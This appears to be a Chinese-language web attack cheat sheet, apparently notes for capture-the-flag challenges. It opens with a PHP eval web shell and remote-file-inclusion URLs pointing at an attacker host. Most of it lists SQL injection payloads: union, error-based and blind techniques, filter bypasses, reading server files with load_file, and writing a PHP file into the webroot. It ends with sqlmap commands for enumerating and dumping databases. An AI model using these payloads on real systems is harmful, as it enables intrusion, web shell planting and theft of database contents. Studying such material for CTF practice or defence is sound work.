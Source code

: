 - 远程文件包含

```
<?=@eval($_POST['cmd']);?>

http://10.0.0.1:7331/l33t.txt
http://10.0.0.1:7331/l33t.txt?foo=bar
```

## SQL注入

- 直接注入（整数类） `UNION SELECT`
- 引号闭合（字符类） `' ORDER BY <COL_NUM> -- q`
- 单向注释闭合（查询等） `-- %23`
- 多符号闭合（引号括号等） `')` `'))`
- 双向闭合 `'and'a'='a` `'or 1=1 or ''='` `-1' union select 1,2,database()'`
- 报错注入 `updatexml(1,concat(0x7e,(<QUERY>),0x7e),1)`
- 回显长度受限 `substr(password,16)`
- 黑名单绕过 `UNunionION` `||` `%26%26`
- 读取文件 `(select load_file('/tmp/360/key'))`
- 计算长度 `length(database())`
- 布尔盲注 `' and ascii(substr(database(),1))=<44-122>`
- 内联注释符替代空格 `/**/`
- 空白符 `%09` `%a0`
- 二次注入 `admin'#`
- 无任何回显（考虑延时） `'and sleep(2)%23` `if(ascii(substr(database(),1))=115,sleep(2),1)`
- Hackbar插件注意事项：加号替换为%20、concat补充空格0x20
- INSERT语句注入 `xxx',database(),'aaa')-- %23`
- ORDER后注入 `1 asc` `1' desc-- %23` `rand(true)` `rand(length(database())=8)'-- %23`
- 写文件 `1' into outfile "/var/www/html/l33t.php" lines terminated by 0x3C3F3D706870696E666F28293B3F3E -- %23`
- 常用SQL
```SQL
select table_name from information_schema.tables where table_schema = 'security'
select column_name from information_schema.columns where table_name = 'users'

SELECT table_name FROM all_tables
SELECT column_name FROM all_tab_columns WHERE table_name = 'users'
```
- SQLmap常用命令
```shell
python sqlmap.py -r req.txt -p "<PARAM>"
python sqlmap.py -r req.txt --current-db
python sqlmap.py -r req.txt --dbs
python sqlmap.py -r req.txt -D "<DB_NAME>" --tables
python sqlmap.py -r req.txt -D "<DB_NAME>" -T "<TABLE_NAME>" --columns
python sqlmap.py -r req.txt -D "<DB_NAME>" -T "<TABLE_NAME>" -C "<COL_1>[,COL_2]" --dump
python sqlmap.py -r req.txt --threads=10
python sqlmap.py -r req.txt --sql-query "<QUERY>"
```
- 打印ASCII数组
```python
arr = [115,101,99,117,114,105,116,121]
res = ''
for num in arr:
    res += chr(num)
print(res)
```
